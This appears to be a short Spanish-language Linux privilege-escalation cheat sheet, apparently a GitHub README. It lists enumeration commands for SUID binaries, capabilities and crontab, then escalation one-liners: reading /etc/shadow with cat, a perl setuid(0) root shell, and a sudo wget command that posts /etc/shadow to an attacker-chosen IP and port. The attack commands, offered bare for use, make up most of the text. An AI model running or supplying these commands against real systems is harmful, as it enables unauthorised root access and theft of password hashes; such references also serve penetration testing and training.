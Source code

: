 ### Buscar Permisos SUID

```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios

```python
	find / -perm -4000 2>/dev/null
```
### cambiar de usuario con sudo

### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas crontab

```python
	cat /etc/crontab
```

---
### Escaladas 
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```
### Escalada de privilegios con wget

```python
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> <puerto>
```

